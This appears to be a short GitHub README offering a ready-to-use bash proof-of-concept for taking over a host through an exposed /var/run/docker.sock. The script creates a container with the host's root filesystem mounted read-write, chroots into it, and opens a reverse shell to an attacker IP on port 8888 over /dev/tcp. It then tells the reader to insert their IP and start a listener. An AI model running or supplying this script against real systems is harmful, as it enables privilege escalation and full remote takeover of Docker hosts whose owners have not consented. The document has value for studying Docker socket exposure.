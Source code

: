 # Docker.sock-environment-takeover
![](https://)

/var/run/docker.sock could lead to full environment takeover. (Privilege Escalation)

I've written a bash script to automate things written in this article. 

##Proof of Concept

`#!/bin/bash`
`pay="bash -c 'bash -i >& /dev/tcp/<Attacker-ipaddr>/8888 0>&1'"`
`payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"`
`response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)`
`revShellContainerID=$(echo "$response" | cut -d'"' -f4)`
`curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start`
`sleep 1`
`curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"`

##Add the attacker ip address to above bash script and start a listener on attacker machine on port 8888. Check the screenshots if you don't understand.

![](https://)
![](https://)


##References
https://dejandayoff.com/the-danger-of-exposing-docker.sock/
